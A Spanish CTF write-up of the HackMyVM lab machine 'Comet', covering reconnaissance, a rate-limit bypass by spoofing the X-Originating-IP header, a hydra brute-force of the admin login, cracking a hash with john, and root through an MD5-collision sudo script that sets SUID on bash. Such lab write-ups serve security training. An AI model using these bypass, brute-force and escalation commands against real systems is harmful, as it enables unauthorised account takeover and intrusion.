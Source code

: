 ```yaml
---
layout: post
title: Comet - Hackmyvm
tags: [ctf, hackmyvm]
---
```


**Autor**: Cromiphi \\
**Dificultad**: Medio

![img](/imgs/write-ups/hackmyvm/comet/comet.png#center)

## Reconocimiento

Como es costumbre, comienzo enumerando los puertos disponibles.

```
$ sudo nmap -p- 192.168.1.60           
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-22 10:28 EDT
Nmap scan report for comet.hmv (192.168.1.60)
Host is up (0.00047s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:38:E4:4D (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.59 seconds
```

En este caso, para realizar la enumeración del servidor web utilizo **nikto**.

```
$ nikto --url 192.168.1.60
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.1.60
+ Target Hostname:    192.168.1.60
+ Target Port:        80
+ Start Time:         2023-03-22 10:29:43 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.54 (Debian)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /: Server may leak inodes via ETags, header found with file /, inode: 1bb9, size: 5f50f4bf1b6c0, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ OPTIONS: Allowed HTTP Methods: GET, POST, OPTIONS, HEAD .
+ /ip.txt: This may be User Online version 2.0, which has a remotely accessible log file.
+ /images/: Directory indexing found.
+ /login.php: Admin login page/section found.
+ 8102 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2023-03-22 10:29:57 (GMT-4) (14 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Hay dos archivos interesantes, "/ip.txt" y "/login.php".

Se puede acceder a la página de login a traves de la página principal.

![img](/imgs/write-ups/hackmyvm/comet/comet_1.png#center)

Y esto es con lo que nos encontramos.

![img](/imgs/write-ups/hackmyvm/comet/comet_2.png#center)

Cuando realizo un intento de inicio de sesión, no puedo realizar más hasta pasado aproximadamente un minuto. Esto se debe a que hay algún tipo de firewall. Se puede comprobar ya que aparece mi dirección ip en el archivo "/ip.txt"

```
$ curl 192.168.1.60/ip.txt
192.168.1.86
```

Cuando desaparezca mi dirección del archivo, podré volver a hacer otra petición.

## Explotación

Para evitar el firewall, utilizo la cabecera "X-Originating-ip" y escribo cualquier cosa.

```
$ curl -H "X-ORIGINATING-IP: Not Blacklisted :)" -d "username=admin&password=1234" -X POST http://comet.hmv/login.php
```

De esta manera ya no bloquea mi ip.

```
$ curl 192.168.1.60/ip.txt
Not Blacklisted :)
```

Ahora ya puedo realizar un ataque de fuerza bruta con **hydra**.

```
$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.60 http-post-form "/login.php:username=admin&password=^PASS^:H=X-ORIGINATING-IP:test:F=Invalid"
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-22 11:38:58
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://192.168.1.60:80/login.php:username=admin&password=^PASS^:H=X-ORIGINATING-IP:test:F=Invalid
[STATUS] 3913.00 tries/min, 3913 tries in 00:01h, 14340486 to do in 61:05h, 16 active
[80][http-post-form] host: 192.168.1.60   login: admin   password: sol******
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-22 11:40:31
```

(Muchas gracias a **[Noname](https://github.com/0x-noname)** por la ayuda con la sintaxis de Hydra)

Una vez obtenida la contraseña del usuario "admin", inicio sesión y soy redirigido a la carpeta "/logFire" en la que hay una gran cantidad de archivos.

![img](/imgs/write-ups/hackmyvm/comet/comet_3.png#center)

Hay dos tipos de archivos: muchos logs y un binario.

### Logs

Descargo los logs con el siguiente comando.

```
$ for i in {1..51};do wget "http://192.168.1.60/logFire/firewall.log.$i"; done
```

Y al buscar información, encuentro una referencia al usuario "Joe".

```
$ cat * | sort | uniq -u                                  
2023-02-19 16:35:31 192.168.1.10 | 192.168.1.50 | Allowed | Inbound connection | Joe
```

### Binario

En la carpeta "/logFire" existe el binario "firewall_update". Me lo descargo y lo analizo usando **radare 2**.

![img](/imgs/write-ups/hackmyvm/comet/comet_4.png#center)

Como se puede ver, el binario pide una contraseña, le aplica una función hash y lo compara con un hash que tiene guardado.

Lo primero que hago es copiar el hash del binario e intentar crackearlo usando **john**. (El hash es la cadena que comienza por b87 hasta 2b1).

```
$ john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
pre********      (?)     
1g 0:00:00:00 DONE (2023-03-22 11:47) 33.33g/s 2184Kp/s 2184Kc/s 2184KC/s 123456..sabrina7
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed.
```

Contraseña encontrada!!

## Escalado de Privilegios

Utilizo **ssh** para conectarme como el usuario Joe y la contraseña previamente crackeada.

```
$ ssh joe@192.168.1.60
joe@192.168.1.60's password: 
Linux comet.hmv 5.10.0-21-amd64 #1 SMP Debian 5.10.162-1 (2023-01-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Mar 22 16:50:42 2023 from 192.168.1.86
joe@comet:~$ :)
```

Compruebo los permisos que tiene Joe para ejecutar comandos utilizando sudo.

```
joe@comet:~$ sudo -l
Matching Defaults entries for joe on comet:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User joe may run the following commands on comet:
    (ALL : ALL) NOPASSWD: /bin/bash /home/joe/coll
```

A continuación muestro el script que puedo ejecutar como Root.

```sh
#!/bin/bash
exec 2>/dev/null

file1=/home/joe/file1
file2=/home/joe/file2
md5_1=$(md5sum $file1 | awk '{print $1}')
md5_2=$(md5sum $file2 | awk '{print $1}')


if      [[ $(head -n 1 $file1) == "HMV" ]] && 
        [[ $(head -n 1 $file2) == "HMV" ]] && 
        [[ $md5_1 == $md5_2 ]] && 
        [[ $(diff -q $file1 $file2) ]]; then
    chmod +s /bin/bash
    exit 0
else
    exit 1
fi
```

Este script comprueba que dos archivos (file1 y file2) tengan el mismo prefijo "HMV" y generen el mismo hash MD5 pero tengan alguna diferencia. Lo que viene siento una colisión.

En los siguientes enlaces de github se explica detalladamente como realizar este tipo de colisiones.

- Explicación: **[Unicoll](https://github.com/corkami/collisions#unicoll-md5)**
- Creacion de los archivos: **[Create you own identical-prefix collision](https://github.com/cr-marcstevens/hashclash#create-you-own-identical-prefix-collision)**

Yo he generado los dos archivos en mi máquina Kali y tras comprobar que efectivamente cumplen los requisitos, los muevo a la máquina **Comet** donde ejecuto el script.

```
joe@comet:~$ sudo /bin/bash /home/joe/coll
joe@comet:~$ /bin/bash -p
bash-5.1# whoami
root
bash-5.1# :)
```

Root conseguido!!

Muchas gracias a **Cromiphi** por esta máquina.
